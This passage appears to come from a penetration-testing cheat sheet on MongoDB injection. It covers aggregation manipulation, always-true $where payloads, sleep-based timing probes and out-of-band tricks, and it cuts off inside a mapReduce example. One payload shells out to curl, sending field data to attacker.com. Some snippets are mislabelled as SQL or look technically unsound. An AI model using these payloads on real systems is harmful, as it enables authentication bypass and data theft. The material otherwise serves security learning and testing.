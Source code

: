 ### Union-Based MongoDB Injection (Equivalent)
- Since MongoDB doesn't support SQL or UNION operations, there isn't a direct equivalent of Union-Based SQLi. However, aggregation pipelines can sometimes be abused similarly if the input is improperly sanitized.
- **Aggregation Pipeline Manipulation:** Injects a stage into an aggregation pipeline to alter its behavior. Manipulates the pipeline to add a potentially malicious field, concatenating values to leak information.
	```sql
	db.collection.aggregate([
	    { $match: { "field": "value" } },
	    { $group: { _id: null, total: { $sum: 1 } } },
	    { $addFields: { malicious: { $concat: ["$total", ".attacker.com"] } } }
	])
	```

### Boolean-Based MongoDB Injection
- **Boolean Condition Manipulation:** Manipulates a query with a Boolean condition to determine behavior based on true/false values. Evaluates to true for all documents, effectively bypassing authentication or access controls if the application doesn't properly handle this.
	```sql
	db.collection.find({ $where: "this.username == 'admin' || 1==1" })
	```
- **Always True Injection:** A query condition that always evaluates to true, often bypassing security checks. This will match all documents because the `$where` clause always returns true, making any prior conditions ineffective.
	```sql
	db.collection.find({ "username": { $ne: "admin" }, $where: "1 == 1" })
	```

### Time-Based MongoDB Injection
- MongoDB doesn’t have a direct equivalent to `SLEEP()` in SQL, but JavaScript execution can introduce delays.
- **JavaScript Delay Injection:** Introduces a delay in the query execution using JavaScript’s `sleep()` function. Forces a delay of 5 seconds to observe if the server’s response time is affected, confirming the vulnerability.
	```sql
	db.collection.find({ $where: "function() { sleep(5000); return true; }" })
	```
- **Conditional Delay:** Delays execution based on a condition. Causes a delay only if a specific condition is true, allowing the attacker to infer information based on the delay.
	```sql
	db.collection.find({ $where: "function() { if (this.username == 'admin') { sleep(5000); } return true; }" })
	```

### Out-of-Band MongoDB Injection
- MongoDB doesn't natively support out-of-band techniques like traditional SQL databases, but certain operations can be manipulated for OOB-like behavior if the environment is misconfigured (e.g., MongoDB running with elevated privileges and network access).
- **Command Injection with Networking:** Attempts to use MongoDB shell or system calls for out-of-band communication. If the `eval()` function is enabled (highly insecure and deprecated), this could run a shell command that communicates with an attacker-controlled server.
	```sql
	db.eval("require('child_process').exec('curl http://attacker.com/?data=' + this.field)")
	```
- **Malicious `mapReduce` Function:** Attempts to send data to an external server by exploiting a `mapReduce` operation. The map-reduce operation executes JavaScript on the server, potentially sending data to an external server.
	```sql
	db.collection.mapReduce(
	    function() { emit(this.field, null); },
	    function(key, values) {